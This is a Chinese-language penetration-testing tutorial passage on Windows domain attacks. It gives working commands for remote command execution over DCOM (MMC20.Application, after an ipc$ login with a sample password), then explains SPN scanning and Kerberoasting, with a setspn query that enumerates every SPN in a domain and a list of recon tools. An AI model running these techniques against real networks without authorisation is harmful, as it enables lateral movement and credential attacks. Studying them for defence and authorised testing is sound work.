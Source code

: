 **使用 DCOM 在远程机器上执行命令：**

1. 通过 ipc$ 连接远程计算机

  ```cmd
  net use \\192.168.1.1 /user:HACK\002 "HACK@2020"
  ```

2. 调用 MMC20.Application 远程执行命令：

  ```powershell
  $com = [activator]::CreateInstance([type]::GetTypeFromProgId("MMC20.Application", "192.168.1.1"))
  $com.Document.ActiveView.ExecuteShellCommand('cmd.exe', $null, "/c calc.exe", "Minimzed")
  ```

## SPN

> 在内网渗透的信息收集中，机器服务探测一般都是通过端口扫描去做的，但是有些环境不允许这些操作。通过利用 SPN 扫描可快速定位开启了关键服务的机器，这样就不需要去扫对应服务的端口，有效规避端口扫描动作。
> Kerberoasting 是域渗透中经常使用的一项技术，是通过爆破 TGS-REP 实现。


摘自：[RcoIl -【域渗透】SPN 扫描利用](https://rcoil.me/2019/06/%E3%80%90%E5%9F%9F%E6%B8%97%E9%80%8F%E3%80%91SPN%20%E6%89%AB%E6%8F%8F%E5%88%A9%E7%94%A8/)

**服务主体名称**（`SPN`: Service Principal Names）是服务实例，可以将其理解为一个服务（比如 HTTP、MSSQL）的唯一标识符，服务在加入域中时是自动注册的。

如果在整个林或域中的计算机上安装多个服务实例，则每个实例都必须具有自己的 SPN。如果客户端可能使用多个名称进行身份验证，则给定服务实例可以具有多个 SPN。SPN 始终包含运行服务实例的主机的名称，因此服务实例可以为其主机名称或别名注册 SPN。

如果用一句话来说明的话就是如果想使用 Kerberos 协议来认证服务，那么必须正确配置 SPN。

SPN 可以分为两种：

- 注册在域内机器账户（Computers）上（服务的权限为 Local System 或 Network Service）
- 注册在域内用户账户（Users）下


**SPN 标准格式：**

在 SPN 语法中存在 4 种元素，两个必须元素和两个格外元素。其中 `<service class>` 和 `<host>` 为必需元素。

```xml
<service class>/<host>:<port> <servername>
服务类型/对应机器名:服务端口[默认端口可不写]
MSSQLSvc/SQLServer.rcoil.me:1433
```

- service class 可以理解为服务的名称，常见的有 www, ldap, SMTP, DNS, HOST 等
- host 有两种形式，FQDN 和 NetBIOS 名，例如 server01.test.com 和 server01
- 如果服务运行在默认端口上，则端口号可以省略

列出域中所有的 SPN 信息：

```cmd
setspn -T domain -Q */* 
```

扫描工具：

- Discover-PAMSSQLServers (Powershell-AD-Recon)
- GetUserSPNs (Powershell、vbs、Python)
- PowerView (Powershell)
- SetSPN (exe)
